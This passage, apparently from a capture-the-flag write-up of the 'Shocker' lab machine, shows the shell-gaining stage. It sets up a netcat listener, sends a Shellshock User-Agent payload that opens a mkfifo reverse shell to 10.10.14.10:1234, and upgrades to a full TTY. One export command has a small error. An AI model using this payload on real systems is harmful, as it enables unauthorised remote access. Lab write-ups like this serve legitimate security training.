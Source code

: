 - The command executed successfully.
- Next, let's modify our payload to establish a reverse shell.
- We'll begin by setting up a listener on our attack machine.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ nc -lnvp 1234
```
- The payload that we're going to use:

```plaintext
User-Agent: () { :;}; /bin/bash -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.10 1234 > /tmp/f'
```

![alt text](../assets/img/Machines/Shocker/RCE.png)

### Spawning a full TTY

We need to spawn a fully interactive TTY shell to enable features like command history and using keyboard shortcuts...

```bash
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'                        
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                    
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? screen
```

Some commands still don't work properly, so we need to export the `$TERM` environment variable to help the shell behave more like a standard terminal.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ echo $TERM
xterm-256color

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty size         
61 236

shelly@Shocker:/usr/lib/cgi-bin$ export $TERM=xterm-256color
shelly@Shocker:/usr/lib/cgi-bin$ stty rows 61 columns 236
```
